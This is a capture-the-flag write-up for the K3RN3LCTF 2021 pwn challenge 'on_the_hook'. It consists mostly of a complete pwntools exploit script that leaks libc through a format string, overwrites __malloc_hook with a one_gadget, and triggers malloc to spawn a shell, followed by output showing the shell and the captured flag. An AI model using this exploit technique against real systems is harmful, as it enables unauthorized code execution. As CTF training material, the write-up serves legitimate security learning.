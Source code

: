 # K3RN3LCTF 2021 

## on\_the\_hook

> Captain Malloc lost his hook find it and than grab a shell for your effort.
> 
> `nc ctf.k3rn3l4rmy.com 2201`
>
> Author: Bex
> 
> [`on_the_hook`](on_the_hook) [`libc.so.6`](libc.so.6)

Tags: _pwn_ _x86_ _malloc_ _malloc-hook_ _write-what-where_ _format-string_


## Summary

I'm not interested in writing a lengthly write up since this is just a ripoff of a challenge from other CTFs (seen it, done it).

Read [this](https://github.com/datajerk/ctf-write-ups/tree/master/dctf2021/formats_last_theorem) for details on how this exploit works.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./on_the_hook')

if args.REMOTE:
    p = remote('ctf.k3rn3l4rmy.com', 2201)
    libc = ELF('./libc.so.6')
    __libc_start_main_offset = 247
    libc.symbols['gadget'] = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6][2]
else:
    p = process(binary.path)
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    __libc_start_main_offset = 245
    libc.symbols['gadget'] = [0xcdc4b,0x1487fb,0x1487fc][2]

offset = 7

p.sendlineafter(b':\n',b'%27$010p')
libc.address = int(p.recvline().strip(),16) - libc.sym.__libc_start_main - __libc_start_main_offset
log.info('libc.address: {x}'.format(x = hex(libc.address)))

payload = fmtstr_payload(offset,{libc.sym.__malloc_hook:libc.sym.gadget},write_size='short')
assert(len(payload) < 0x40)
assert(payload.find(b'\n') == -1)

p.sendline(payload)
p.recvuntil(b'\n')
p.sendline(b'%65536c')
p.interactive()
```

Basically leak libc with format string, then use second format string as write-what-where to write out a malloc hook with a one\_gadget, then use a third format string to create a buffer, thus trigging a malloc.

The `assert` statements catch if the length is greater than the buffer and if the attack has a newline since `fgets` will terminate early.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/k3rn3lctf2021/on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2201: Done
[*] '/pwd/datajerk/k3rn3lctf2021/on_the_hook/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0xf7df5000
[*] Switching to interactive mode
$ id
uid=1000 gid=1000 groups=1000
$ cat flag.txt
flag{m4l1oc_h0ok_4nd_0n3_g4d9et_3a5y_a5_7h4t}
```
